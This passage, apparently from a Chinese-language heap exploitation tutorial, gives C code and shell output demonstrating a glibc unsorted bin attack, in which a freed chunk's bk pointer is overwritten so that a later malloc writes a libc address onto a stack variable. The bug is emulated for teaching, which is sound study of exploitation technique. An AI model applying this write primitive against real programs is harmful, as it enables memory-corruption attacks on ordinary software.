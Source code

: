 ```c
  unsigned long *p = malloc(400);
  fprintf(stderr, "Now, we allocate first normal chunk on the heap at: %p\n",
          p);
  fprintf(stderr, "And allocate another normal chunk in order to avoid "
                  "consolidating the top chunk with"
                  "the first one during the free()\n\n");
  malloc(500);

  free(p);
  fprintf(stderr, "We free the first chunk now and it will be inserted in the "
                  "unsorted bin with its bk pointer "
                  "point to %p\n",
          (void *)p[1]);

  /*------------VULNERABILITY-----------*/

  p[1] = (unsigned long)(&target_var - 2);
  fprintf(stderr, "Now emulating a vulnerability that can overwrite the "
                  "victim->bk pointer\n");
  fprintf(stderr, "And we write it with the target address-16 (in 32-bits "
                  "machine, it should be target address-8):%p\n\n",
          (void *)p[1]);

  //------------------------------------

  malloc(400);
  fprintf(stderr, "Let's malloc again to get the chunk we just free. During "
                  "this time, target should has already been "
                  "rewrite:\n");
  fprintf(stderr, "%p: %p\n", &target_var, (void *)target_var);
}
```

程序执行后的效果为

```shell
➜  unsorted_bin_attack git:(master) ✗ gcc unsorted_bin_attack.c -o unsorted_bin_attack
➜  unsorted_bin_attack git:(master) ✗ ./unsorted_bin_attack
This file demonstrates unsorted bin attack by write a large unsigned long value into stack
In practice, unsorted bin attack is generally prepared for further attacks, such as rewriting the global variable global_max_fast in libc for further fastbin attack

Let's first look at the target we want to rewrite on stack:
0x7ffe0d232518: 0

Now, we allocate first normal chunk on the heap at: 0x1fce010
And allocate another normal chunk in order to avoid consolidating the top chunk withthe first one during the free()

We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer point to 0x7f1c705ffb78
Now emulating a vulnerability that can overwrite the victim->bk pointer
And we write it with the target address-16 (in 32-bits machine, it should be target address-8):0x7ffe0d232508

Let's malloc again to get the chunk we just free. During this time, target should has already been rewrite:
0x7ffe0d232518: 0x7f1c705ffb78
```

